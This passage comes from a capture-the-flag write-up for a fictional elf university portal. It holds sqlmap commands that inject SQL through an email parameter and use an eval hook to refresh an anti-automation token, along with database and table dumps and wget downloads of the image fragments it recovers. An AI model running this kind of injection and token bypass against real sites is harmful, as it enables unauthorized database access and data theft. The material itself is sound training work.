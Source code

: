      python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=&token=blah' -p elfmail --eval="import requests;token=requests.request(\"GET\", \"https://studentportal.elfu.org/validator.php\").text" -v 5 --dbms MySQL

get dbs and tables

     python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=&token=blah' -p elfmail --eval="import requests;token=requests.request(\"GET\", \"https://studentportal.elfu.org/validator.php\").text" --dbms MySQL --tables

Output

    available databases [2]:
    [*] elfu
    [*] information_schema

    Database: elfu
    [3 tables]
    +---------------------------------------+
    | applications                          |
    | krampus                               |
    | students                              |
    +---------------------------------------+

get everything from "krampus" table in "elfu" db

     python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=&token=blah' -p elfmail --eval="import requests;token=requests.request(\"GET\", \"https://studentportal.elfu.org/validator.php\").text" --dbms MySQL -D elfu -T krampus --sql-query="select * from krampus;"

Output

    [*] /krampus/0f5f510e.png, 1
    [*] /krampus/1cc7e121.png, 2
    [*] /krampus/439f15e6.png, 3
    [*] /krampus/667d6896.png, 4
    [*] /krampus/adb798ca.png, 5
    [*] /krampus/ba417715.png, 6

Download all the paper scraps

    wget https://studentportal.elfu.org/krampus/0f5f510e.png;
    wget https://studentportal.elfu.org/krampus/1cc7e121.png;
    wget https://studentportal.elfu.org/krampus/439f15e6.png;
    wget https://studentportal.elfu.org/krampus/667d6896.png;
    wget https://studentportal.elfu.org/krampus/adb798ca.png;
    wget https://studentportal.elfu.org/krampus/ba417715.png;

Open images in GIMP, one image per layer, rotate and re-arrage them.

**Answer: Super Sled-o-matic**


## 10 - Recover Cleartext Document
Difficulty: 🌲🌲🌲🌲🌲
